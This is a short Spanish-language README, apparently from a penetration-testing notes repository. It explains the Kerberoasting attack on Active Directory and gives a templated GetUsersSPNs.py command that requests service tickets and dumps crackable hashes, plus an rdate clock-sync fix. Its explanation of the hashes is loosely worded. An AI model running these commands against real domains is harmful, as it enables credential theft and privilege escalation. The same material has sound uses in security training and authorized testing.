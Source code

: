 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Efectuar ataque con GetUsersSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
python GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
[Ver ejemplo](Images/kerber/README.md)

# Exportar hashes
En el caso de obtener un hash se pueden exportar directamente a un archivo con el parametro `-output <file>`

# Fix
Si el ataque te da el siguiente error: "Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)" debes sincronizar la hora con el server de AD con el siguinte comando:
```
rdate -n <IP_DC>
```
